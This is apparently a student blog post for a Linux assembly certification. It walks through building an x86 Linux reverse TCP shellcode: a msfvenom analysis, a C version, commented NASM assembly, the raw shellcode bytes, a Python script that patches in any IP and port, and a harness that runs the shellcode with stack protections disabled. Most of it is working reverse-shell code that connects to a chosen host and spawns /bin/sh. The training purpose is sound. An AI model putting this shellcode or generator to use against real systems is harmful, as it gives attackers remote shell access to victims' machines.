

## Assignment 2

* Create a Shell_Reverse_TCP shellcode
  * Reverse connects to a configured IP and Port
  * Execs shell on successfull connection
* IP and Port should be easily configurable

## Execution

The first thing the I wanted to do was to analyze the internals of an already implemented bind shell with the goal of understanding the syscalls involved. For this task Libemu was used; let's generate the shellcode and pipe it into sctest.

```
> msfvenom -p  linux/x86/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 | sctest -vvv -G rev_shell_flow.dot -Ss 10000
> dot -Tpng rev_shell_flow.dot -o rev_shell_flow.png
```

<p align="center">
	
</p>

Now that the functions used are known in details, I wanted to recreate the payload from msfvenom in C. This step is not really required, but it acts as a verification of my understanding. The following is the PoC in C.

```c
// Author   :  Alessio Parzian
// Filename : rev_shell.c

// Compile with:
//     gcc rev_shell.c -o rev_shell

#include <sys/socket.h>
#include <arpa/inet.h> 
#include <unistd.h>

int main()
{

	// Define address to connect and port
	char* ip = "127.0.0.1";
	int port = 1234;

	// Create the socket (man socket)
	// AF_INET for IPv4
	// SOCK_STREAM for TCP connection
	// 0 leaves it up to the service provider for protocol, which will be TCP
	int host_sock = socket(AF_INET, SOCK_STREAM, 0);

	// Redirect stdin, stdout, stderr to the socket file descritor just created
	dup2(host_sock, 0);
	dup2(host_sock, 1);
	dup2(host_sock, 2);

	// Create sockaddr_in struct (man 7 ip)
	struct sockaddr_in host_addr;

	// AF_INET for IPv4
	host_addr.sin_family = AF_INET;
	
	// Set port number to 1234, set to network byte order by htons
	host_addr.sin_port = htons(port);

	// Convert ip from text to binary and fill the related struct
	inet_pton(AF_INET, ip, &host_addr.sin_addr);

	// Connect to attacker machine
	connect(host_sock, (struct sockaddr *) &host_addr, sizeof(host_addr));

	// Execute bash
	execve("/bin/sh", NULL, NULL);

}
````

It looks to work! It's time to dive into the actual implementation in Assembly. 
The keypoints while writing the following piece of code are:

* Syscalls are called using the opcode *0x80* and the related involved registers have to be set accordingly
* Syscalls numbers are located at */usr/include/i386-linux-gnu/asm/unistd_32.h*
* The use of man 2 is fundamental
* The use of *gdb* to verify the state of the registers, while the program is in execution, is crucial

```
; Author :  Alessio Parzian
; Filename: rev_shell.asm

; compile with:
; 	nasm -f elf32 rev_shell.asm
;	ld -o rev_shell rev_shell.o
; extract shellcode with:
; 	objdump -d rev_shell | grep -Po '\s\K[a-f0-9]{2}(?=\s)' | sed 's/^/\\x/g' | perl -pe 's/\r?\n//' | sed 's/$/\n/'

global _start

section .text

    _start:
        ;
        ; Syscall numbers for x86 can be found: /usr/include/i386-linux-gnu/asm/unistd_32.h
        ;
        ; ==================
        ; prepare registries
        ; ==================
        mov ebp,esp             ; zeroing register
        xor eax,eax             ; zeroing register
        xor ebx,ebx             ; zeroing register
        xor ecx,ecx             ; zeroing register
        xor edx,edx             ; zeroing register
        xor esi,esi.            ; zeroing register
        ; ==================
        ; socket syscall
        ; ==================
        ; > man 2 socket 
        ; int socket(int domain, int type, int protocol);
        ; 	AF_INET is defined as 2 as listed in /usr/include/asm-generic/socket.h
        ; 	SOCK_STREAM is defined as 1 as listed in /usr/include/asm-generic/socket.h
        ; ------------------
        mov ax, 0x167           ; syscall number
        mov bl, 0x2             ; AF_INET - IPv4 Internet protocols
        mov cl, 0x1             ; SOCK_STREAM - Provides sequenced, reliable, two-way, connection-based byte streams.  An out-of-band data transmission mechanism may be supported.
                                ; edx is left to 0 as no additional flag is required to be set for our goal
        int 0x80                ; interrupt to ask for syscall execution
        mov esi, eax            ; save socket file descriptor to ESI register
        ; ==================
        ; dup2 syscall
        ; ==================
        ; > man 2 dup2
        ; int dup2(int oldfd, int newfd);
        ; ------------------
        mov ebx, esi            ; move the file descriptor for the accepted socket as parameter
        xor ecx, ecx            ; zeroing register
        mov cl, 0x3             ; set counter for loop, three loops are executed for stdin, stdout, stderr
        dupin:
            xor eax, eax        ; zeroing out eax
            mov al, 0x3f        ; syscall number - dup2
            dec cl              ; decreasing loop counter 
            int 0x80            ; interrupt to ask for syscall execution
            jnz dupin           ; if the zero flag is not set then do it again
        ; ==================
        ; connect syscall
        ; ==================
        ; > man 2 connect
        ; int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
        ; ------------------
        add ax, 0x16a           ; syscall number
        mov ebx, esi            ; move the socket file descriptor as syscall parameter
        push 0x0100007f         ; uint32_t s_addr (4 bytes) in little endian, 0x0100007f is 127.0.0.1
        push word 0x901f        ; in_port_t sin_port (2 bytes) in little endian, 0x1f90 is 8080 
        push word 0x02          ; sa_family_t sin_family (2 bytes), AF_INET - IPv4 Internet protocols
        mov ecx, esp            ; move the address of esp as syscall parameter as a mean to access the struct just saved in the stack
        xor edx, edx            ; zeroing register
        add edx, 0x10           ; socklen_t addrlen (16 bytes) is the size of the struct saved  
        int 0x80                ; interrupt to ask for syscall execution
        ; ==================
        ; execve syscall
        ; ==================
        ; > man 2 execve
        ;  int execve(const char *filename, char *const argv[], char *const envp[]);
        ; ------------------
        xor eax, eax            ; zeroing out eax
        push eax                ; push null byte onto the stack
        mov al, 0x0b            ; syscall number 
        push 0x68732f6e         ; push on the stack the name of the program, /bin/sh to executed in little endian - hs/n
        push 0x69622f2f         ; push on the stack the name of the program, /bin/sh to executed in little endian - ib// (double / for padding)
        mov ebx, esp            ; move the address of esp as syscall perameter as a mean to access the program name
        xor edi, edi            ; zeroing register
        push edi                ; push on the stack a null argv
        mov edx, esp            ; move the address of esp as syscall perameter as a mean to access the argv value
        push ebx                ; push "//bin/sh,0x00000000" back to the stack as envp 
        mov  ecx, esp           ; move the address of esp as syscall perameter as a mean to access the envp value
        int 0x80                ; interrupt to ask for syscall execution
```

Once compiled the shellcode generated is the following:

```
\x89\xe5\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x31\xf6\x66\xb8\x67\x01\xb3\x02\xb1\x01\xcd\x80\x89\xc6\x89\xf3\x31\xc9\xb1\x03\x31\xc0\xb0\x3f\xfe\xc9\xcd\x80\x75\xf6\x66\x05\x6a\x01\x89\xf3\x68\x7f\x00\x00\x01\x66\x68\x1f\x90\x66\x6a\x02\x89\xe1\x31\xd2\x83\xc2\x10\xcd\x80\x31\xc0\x50\xb0\x0b\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xff\x57\x89\xe2\x53\x89\xe1\xcd\x80
```

A couple of null bytes are there, but this is due to the ip address used (127.0.0.1), in a real case scenario another IP should be used.
Let's move to the final part of the assignment: the port should be easily configurable. For doing this a Python helper script was implemented.

```python
#!/bin/python

# Author  : Alessio Parzian
# Filename: ShellGen.py
# Usage   : python ShellGen.py $ipaddr $port_number

# This script is an helper to easily configure the ip address and port of the rev shell

# Note that problems might arise due to the presence of 0x00 in the ip addr inserted
# In this exercise is not an issue but when using it as part of an exploit it could be the case
# I prefer simply to work at asm level to avoid badchars
# EX: in case of 127.0.0.1 use the following instead of the common push
# mov byte [esp] = 0x7f
# mov byte [esp+3] 0x01

import sys

try:
	ipaddr = ''
	for ip_byte in sys.argv[1].split("."):
		ipaddr+="\\x"+"{:02x}".format(int(ip_byte))

	port = "{:04x}".format(int(sys.argv[2]))
	port_hex = port
	port = "\\x"+port[:2]+"\\x"+port[2:]

	shellcode = ("\\x89\\xe5\\x31\\xc0\\x31\\xdb\\x31\\xc9\\x31\\xd2\\x31\\xf6\\x66\\xb8\\x67\\x01"
				 "\\xb3\\x02\\xb1\\x01\\xcd\\x80\\x89\\xc6\\x89\\xf3\\x31\\xc9\\xb1\\x03\\x31\\xc0"
				 "\\xb0\\x3f\\xfe\\xc9\\xcd\\x80\\x75\\xf6\\x66\\x05\\x6a\\x01\\x89\\xf3\\x68" +
				 ipaddr + "\\x66\\x68" + port +"\\x66\\x6a\\x02\\x89\\xe1\\x31\\xd2\\x83\\xc2"
				 "\\x10\\xcd\\x80\\x31\\xc0\\x50\\xb0\\x0b\\x68\\x6e\\x2f\\x73\\x68\\x68\\x2f\\x2f"
				 "\\x62\\x69\\x89\\xe3\\x31\\xff\\x57\\x89\\xe2\\x53\\x89\\xe1\\xcd\\x80");
	
	print "[*] Shellcode will connect to addr {} at port {}".format(sys.argv[1], sys.argv[2])
	print "[*] Size: {0} bytes".format(shellcode.count("x"))
	print
	print "[*] Spawing..."
	print
	print shellcode
	
except Exception, e:
	print str(e)
	print 'Please specify port number as parameter in decimal format.\n'
	print 'Usage:'
	print '	python ShellGen.py $ipaddr $port_number'
	exit(-1)
```

An example of output is the following:

```
>  python ShellGen.py 127.0.0.1 9876

[*] Shellcode will connect to addr 127.0.0.1 at port 9876
[*] Size: 94 bytes

[*] Spawing...

\x89\xe5\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x31\xf6\x66\xb8\x67\x01\xb3\x02\xb1\x01\xcd\x80\x89\xc6\x89\xf3\x31\xc9\xb1\x03\x31\xc0\xb0\x3f\xfe\xc9\xcd\x80\x75\xf6\x66\x05\x6a\x01\x89\xf3\x68\x7f\x00\x00\x01\x66\x68\x26\x94\x66\x6a\x02\x89\xe1\x31\xd2\x83\xc2\x10\xcd\x80\x31\xc0\x50\xb0\x0b\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xff\x57\x89\xe2\x53\x89\xe1\xcd\x80
```

For testing the shellcode generated the following helper program was used.

```c
/*
// Author: Alessio Parzian
// Filename: test_shell.c
//
// Test your shellcode. Replace shellcode variable value with your own shell, compile and execute.
// Compile with:
// 	gcc $file_name -fno-stack-protector -z execstack -o $out_name
*/

#include <stdio.h>

// Use an array instead of a pointer because compiler does consider the array as mutable (this implies you can modify it at runtime). For pointers to literal this is not the case unless specific flag is passed to the compiler. This is very important when modifing at runtime the shellcode.

unsigned char shellcode[] = "\x89\xe5\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x31\xf6\x66\xb8\x67\x01\xb3\x02\xb1\x01\xcd\x80\x89\xc6\x89\xf3\x31\xc9\xb1\x03\x31\xc0\xb0\x3f\xfe\xc9\xcd\x80\x75\xf6\x66\x05\x6a\x01\x89\xf3\x68\x7f\x00\x00\x01\x66\x68\x26\x94\x66\x6a\x02\x89\xe1\x31\xd2\x83\xc2\x10\xcd\x80\x31\xc0\x50\xb0\x0b\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xff\x57\x89\xe2\x53\x89\xe1\xcd\x80";

int main (){
	void (*shell)(void) = (void(*)(void)) shellcode;
	shell();
}
```

Well, this concludes assignment 2!

<br/>

---

*This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification.*

<http://securitytube-training.com/online-courses/security-tube-linux-assembly-expert>

*Student-ID: PA-8733*